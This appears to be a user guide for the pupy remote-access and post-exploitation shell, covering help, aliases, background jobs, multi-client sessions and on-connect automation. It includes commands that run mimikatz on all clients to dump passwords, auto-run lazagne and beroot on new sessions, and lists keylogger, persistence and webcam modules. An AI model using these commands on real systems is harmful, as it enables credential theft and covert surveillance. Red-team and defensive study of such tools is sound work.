 ## List commands and modules
To list all commands and aliases use the following command:
```code
>> help
```
For a complete list of modules, run: 
```code
>> help -M
```

## Find commands and modules help
First of all it is important to know that nearly all commands in pupy have a help builtin. So if at any moment you are wondering what a command does you can type your command followed by `-h` or `--help`.
```code
>> sessions -h
>> jobs -h
>> run -h
```
This is even true for modules ! 

For example if you want to know how to use the pyexec module type :
```code
>> pyexec -h
usage: pyexec [-h] [--file <path>] [-c <code string>]

execute python code on a remote system 

optional arguments:
-h, --help            show this help message and exit
--file <path>         execute code from .py file
-c <code string>, --code <code string>
                      execute python oneliner code. ex : 'import
                      platform;print platform.uname()'
```
## Use the completion !
Nearly all commands and modules in pupy have custom auto-completion. So if you are wondering what you need to type just press TAB
```code
>> run 
getsystem           load_package        msgbox              ps                  shell_exec          
download            interactive_shell   memory_exec         persistence         pyexec              shellcode_exec      
exit                keylogger           migrate             port_scan           pyshell             socks5proxy         
get_info            linux_pers          mimikatz            portfwd             screenshot          upload              
getprivs            linux_stealth       mouselogger         process_kill        search              webcamsnap          
>> load_package 
_sqlite3           linux_stealth      psutil             pupyimporter       pyshell            sqlite3            
interactive_shell  netcreds           ptyshell           pupymemexec        pywintypes27.dll   vidcap             
linux_pers         portscan           pupwinutils        pupyutils          scapy   
```
```code
>> pyexec -
--code   --file   --help   -c       -h       
>> run pyexec --file /
/bin/         /etc/         /lib/         /libx32/      /media/       /proc/        /sbin/        /sys/         /var/         
/boot/        /home/        /lib32/       /live-build/  /mnt/         /root/        /share/       /tmp/         /vmlinuz      
/dev/         /initrd.img   /lib64/       /lost+found/  /opt/         /run/         /srv/         /usr/         
```
## Escape your arguments
Every command in pupy shell uses a unix-like escaping syntax. If you need a space in one of your arguments you need to put your argument between quotes. 
```code
>> shell_exec 'tasklist /V'
```   
If you send a Windows path, you need to double the backquotes or put everything between quotes.
```code
>> download 'C:\Windows\System32\cmd.exe'
```
or
```code
>> download C:\\Windows\\System32\\cmd.exe
```


## Create Aliases
Modules aliases can be defined in the `pupy.conf` file. If you define the following alias :
```code
shell=interactive_shell
```
running the command `shell` will be equivalent as running `run interactive_shell`.

As an example, defining the following alias will add a command to kill the pupy client's process with signal 9:
```code
killme = pyexec -c 'import os;os.kill(os.getpid(),9)'
```

## Jobs
Jobs are commands running in the background.
Some modules like `socks5proxy` or `portfwd` automatically start as jobs, but all modules can be run as jobs when used with the `--bg` argument.
```code
>> run --bg shell_exec 'tasklist /V'
[%] job < shell_exec ['tasklist /V'] > started in background !
```
The `--bg` switch is typically used when you want to execute a long command/module and want the result later while having the shell still functioning.  
The jobs output can be retrieved at any moment by using the `jobs -p` command. From the `jobs` command you can also list jobs status and kill jobs.
```code
>> jobs 
usage: jobs [-h] [-k <job_id>] [-l] [-p <job_id>]

list or kill jobs

optional arguments:
-h, --help            show this help message and exit
-k <job_id>, --kill <job_id>
print the job current output before killing it
-l, --list            list jobs
-p <job_id>, --print-output <job_id>
						print a job output
```
Regular jobs can be set in Linux/Unix environments by running your `pupysh.py` script inside the Screen utility. You can then setup cronjobs to run the below command at whatever intervals you require, this essentially pastes the input after the word 'stuff' into the screen session. Replace 1674 with the ID of your screen session, the echo command is the Enter key being pressed. 
```code
screen -S 1674 -X stuff 'this is an example command'$(echo -ne '\015')
```

## Handle multiple clients connected
By default pupy launch every module you run on all connected clients. This allows for example to run mimikatz on all connected clients and dump passwords everywhere in one command
```code
>> run memory_exec /usr/share/mimikatz/Win32/mimikatz.exe privilege::debug sekurlsa::logonPasswords exit
```
To interact with one client, use the `sessions -i` command.
- To interact with session 1
```code
>> sessions -i 1
``` 
- To interact with all windows 7 only:
```code
>> sessions -i 'platform:Windows release:7'
``` 

You can find all the available filtering parameters using the `get_info` module.

## Run commands after getting a new session
These commands should be specify on the [pupy.conf](https://github.com/n1nj4sec/pupy/blob/unstable/pupy/pupy.conf.default) file after the [on_connect](https://github.com/n1nj4sec/pupy/blob/unstable/pupy/pupy.conf.default#L135) statement.
To run these modules for each new sessions, all commands should start by **any** (or by *) and should have different names. 
```
[on_connect]
any_1 = beroot
any_2 = lazagne
```
Another way should be to include an entire category like so
```
[on_connect]
* = include:default_commands

[default_commands]
any_1 = beroot
any_2 = lazagne
```

## Run local commands
Start your command with a `!`
```
>> !ls
```